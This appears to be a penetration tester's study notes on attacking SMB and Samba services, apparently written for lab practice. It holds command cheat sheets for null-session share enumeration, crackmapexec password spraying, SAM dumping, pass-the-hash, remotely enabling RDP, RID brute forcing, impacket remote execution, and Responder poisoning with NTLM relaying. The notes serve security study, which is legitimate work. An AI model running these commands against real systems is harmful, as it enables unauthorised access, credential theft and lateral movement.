- **tags:** #samba #common-services #smb
--------------------
# Server Message Block
Server Message Block (SMB) is a communication protocol created for providing shared access to files and printers across nodes on a network. Initially, it was designed to run on top of NetBIOS over TCP/IP (NBT) using TCP port `139` and UDP ports `137` and `138`. However, with Windows 2000, Microsoft added the option to run SMB directly over TCP/IP on port `445` without the extra NetBIOS layer. Nowadays, modern Windows operating systems use SMB over TCP but still support the NetBIOS implementation as a failover.
Samba is a Unix/Linux-based open-source implementation of the SMB protocol. It also allows Linux/Unix servers and Windows clients to use the same SMB services.

Another protocol that is commonly related to SMB is [MSRPC (Microsoft Remote Procedure Call)](https://en.wikipedia.org/wiki/Microsoft_RPC). RPC provides an application developer a generic way to execute a procedure (a.k.a. a function) in a local or remote process without having to understand the network protocols used to support the communication, as specified in [MS-RPCE](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rpce/290c38b1-92fe-4229-91e6-4fc376610c15), which defines an RPC over SMB Protocol that can use SMB Protocol named pipes as its underlying transport.
## Shares Enum
```bash
smclient -L <ip> -N #list shares using a null session
smbmap -H <ip> #tells us weather we have read or write perms on the various shares
```
## Connection
```bash
smbclient \\\\<ip>\\<share> -U username -P password
```
## Enumeration
```bash
enum4linux -a <ip>
enum4linux -a -u admin -p password -U <ip>

rpcclient -U "" 10.129.14.128
```
The `rpcclient` offers us many different requests with which we can execute specific functions on the SMB server to get information
## Mount on local system
```bash
# On a Linux host
mount -t cifs //<target-IP>/<sharename> /mnt/mounted
mount.cifs //<ip>/<share> /mnt/mounted -o username=null,password=null,domain=,rw

# On windows host (Mounted on n: drive)
net use n: \\192.168.220.129\Finance /user:plaintext Password123
```
## Crackmapexec
```bash
# Retrieve banner
crackmapexec smb 10.10.10.40

# Password Spraying
crackmapexec smb 10.10.10.40 -u users.list -p "Welcome2023" --continue-on-success --local-auth

# Enum Shares
crackmapexec smb 10.10.10.40 --shares

#Enum users (On multiple hosts)
crackmapexec smb 10.10.110.0/24 -u administrator -p 'Password123!' --loggedon-users

# Enum Users via RID Brute
crackmapexec smb 10.10.10.149 -u hazard -p 'stealth1agent' --rid-brute

# Dump password policy
crackmapexec smb 10.10.10.40 --pass-pol

# Dump SAM (need admin privileges)
crackmapexec smb 10.10.110.17 -u administrator -p 'Password123!' --sam

# check whether user is admin (Pwned!)
crackmapexec smb 10.10.10.40 -u admin -p "askljd;*(&())"

# Pass the hash (NT-hash)
crackmapexec smb 10.10.10.40 -u admin -H "8b1a9953c4611296a827abf8c47804d7"

# Enable RDP
crackmapexec smb 10.10.10.40 -u admin -H "8b1a9953c4611296a827abf8c47804d7" -M rdp -o action=enable
```
## RID Brute-Forcing
```bash
rpcclient -U 'username%password' 10.10.10.149

rpcclient $> lookupnames administrator #return SID for administrator accoubnt
rpcclient $> lookupsids S-1-5-2-.....-500 #SID for administator account
```
One can build his own bash script to brute force the RID of valid accounts.
## RCE
- `impacket-psexec`
- `impacket-smbexec`
- `impacket-atexc`
*Syntax*: `impacket-psexec username:password@target`
- `crackmapexec`
- `Metasploit psexec`
# Forced Autentication Attacks
## Capturing NetNTLM v1/v2 Hashes
We can also abuse the SMB protocol by *creating a fake SMB Server to capture users' NetNTLM v1/v2 hashes*. The most common tool to perform such operations is the `Responder`. [Responder](https://github.com/lgandx/Responder) is an LLMNR, NBT-NS, and MDNS poisoner tool with different capabilities, one of them is the possibility to set up fake services, including SMB, to steal NetNTLM v1/v2 hashes. In its default configuration, it will find [LLMNR](https://en.wikipedia.org/wiki/Link-Local_Multicast_Name_Resolution) (*Link-Local Multicast Name Resolution*) and NBT-NS traffic. Then, it will respond on behalf of the servers the victim is looking for and capture their *NetNTLM hashes*.
```bash
# basic usage
responder -I eth0
```
**When a user or a system tries to perform a Name Resolution (NR)**, a series of procedures are conducted by a machine to retrieve a host's IP address by its hostname. On Windows machines, **the procedure will roughly be as follows:**
- The *hostname file share's IP address is required.*
- The local host file (`C:\Windows\System32\Drivers\etc\hosts`) *will be checked* for suitable records.
- If no records are found, the machine switches to the *local DNS cache*, which keeps track of recently resolved names.
- Is there no local DNS record? A *query will be sent to the DNS server* that has been configured.
- If all else fails, **the machine will issue a multicast query**, requesting the IP address of the file share from other machines on the network.
Suppose a user *mistyped a shared folder's name* `\\mysharefoder\` instead of `\\mysharedfolder\`. In that case, *all name resolutions will fail because the name does not exist*, and the machine will send a *multicast query to all devices on the network, including us running our fake SMB server*. This is a problem because no measures are taken to verify the integrity of the responses. Attackers can take advantage of this mechanism by listening in on such queries and spoofing responses, leading the victim to believe malicious servers are trustworthy. *Captured credentials can be cracked* using [[hashcat]] **or relayed to a remote host to complete the authentication and impersonate the user**. 
## Relaying Net-NTLM hashes
We can potentially relay the captured hash to another machine using [impacket-ntlmrelayx](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ntlmrelayx.py). First, we need to set SMB to `OFF` in our responder configuration file (`/etc/responder/Responder.conf`), next we deploy the `responder` utility. Then we execute `impacket-ntlmrelayx` with the option `--no-http-server`, `-smb2support`, and the target machine with the option `-t`. By default, `impacket-ntlmrelayx` will dump the SAM database, but we can execute commands by adding the option `-c`.
```bash
impacket-ntlmrelayx --no-http-server -smb2support -t 10.10.110.146
```

### Resource Labs
- [Docker Container with Samba Running](https://github.com/vulhub/vulhub/tree/master/samba/CVE-2017-7494)